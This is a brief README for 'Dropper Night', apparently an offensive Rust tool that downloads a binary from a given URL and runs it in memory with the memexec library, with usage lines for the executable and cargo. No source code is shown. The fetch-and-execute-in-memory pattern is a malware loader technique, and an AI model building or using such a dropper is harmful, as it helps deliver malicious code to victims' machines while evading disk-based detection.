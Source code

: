 # Dropper Night

Dropper Night is a tool to download an binary and then execute it in memory. It is written in rust using
memexec to execute the binary in memory.

## Usage

```
dropper_night_rust.exe <binary_url> <args_to_binary_0> ... <args_to_binary_n>
```
or
```
cargo run <binary_url> <args_to_binary_0> ... <args_to_binary_n>
```

